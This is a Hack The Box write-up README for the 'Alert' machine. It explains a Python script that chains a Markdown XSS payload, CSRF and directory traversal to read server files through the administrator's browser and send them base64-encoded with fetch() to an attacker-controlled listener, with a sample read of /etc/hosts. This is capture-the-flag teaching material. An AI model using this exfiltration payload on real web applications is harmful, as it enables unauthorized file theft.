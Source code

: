 # Hack The Box. Machines. Alert

Machine write-up: https://7rocky.github.io/en/htb/alert

### `lfr.py`

This Python script is used to read files from the server exploiting a Local File Read vulnerability that is only accessible by the administrator. We need to use Cross-Site Scripting (XSS) and Cross-Site Request Forgery (CSRF) to execute JavaScript on the administrator's browser and read the response to the protected endpoint.

This piece of code creates the Markdown XSS payload to exploit the Local File Read vulnerability (using Directory Traversal) through a CSRF and sends back the response to a controlled server in Base64:

```python
markdown = f'''<img onerror="fetch('{URL}/messages.php?file=../../../..{filename}').then(r => r.text()).then(r => fetch('http://{IP}:{PORT}/?c=' + btoa(r)))" src="x">'''

r = requests.post(f'{URL}/visualizer.php', files={'file': ('test.md', markdown, 'text/x-markdown')})
link = re.findall(r'<a class="share-button" href="(.*?)" target="_blank">Share Markdown</a>', r.text)[0]

requests.post(f'{URL}/contact.php', data={'email': 'asdf@asdf.com', 'message': link})
```

The Python script also contains a Flask server to receive the Base64-encoded response and print its contents. We take out `<pre>` and `</pre>` tags to enhance readability:

```python
app = Flask(__name__)


@app.route('/')
def index():
    print(b64d(request.query_string[2:]).decode('latin1')[5:-8])
    os._exit(0)


Thread(target=app.run, kwargs={'port': PORT, 'host': IP}).start()
```

We add some options to remove Flask's debugging messages on startup:

```python
logging.getLogger('werkzeug').disabled = True
cli = sys.modules['flask.cli']
cli.show_server_banner = lambda *_: None
```

And these are the required parameters to use the script:

```python
URL = 'http://alert.htb'
IP = sys.argv[1]
PORT = 5000
filename = sys.argv[2]
```

With this, we can read files as follows:

```console
$ python3 lfr.py 10.10.16.6 /etc/hosts
127.0.0.1 localhost
127.0.1.1 alert
127.0.0.1 alert.htb
127.0.0.1 statistics.alert.htb

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```
